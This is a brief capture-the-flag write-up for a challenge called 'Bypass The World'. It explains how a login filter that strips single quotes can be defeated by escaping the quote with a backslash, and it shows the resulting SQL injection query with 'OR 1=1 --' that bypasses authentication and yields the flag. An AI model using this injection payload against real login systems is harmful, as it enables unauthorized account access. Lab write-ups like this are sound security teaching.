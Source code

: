 ## we have login page with buttoon to reveal source code 
![Screenshot 2023-08-11 at 05-45-49 Bypass The World](https://github.com/kiro6/writeups-ctfs/assets/57776872/2fabb0b8-c266-4adb-a830-5881be498343)

## the code replace `'` with space  , in mysql to escape char use `\` so we can escape the `'` in query ,the query will be like this 
```mysql
select * from useres where username = '\' and password = ' OR 1=1  -- '

# username value : \' and password =
```

## send the payload
![Screenshot_20230811_054601](https://github.com/kiro6/writeups-ctfs/assets/57776872/3759552b-90c5-4640-8575-bb67fc3ea8a6)

## we got the flag 
```
FLAG{Y0u_Ar3_S0_C00L_T0d4y}
```
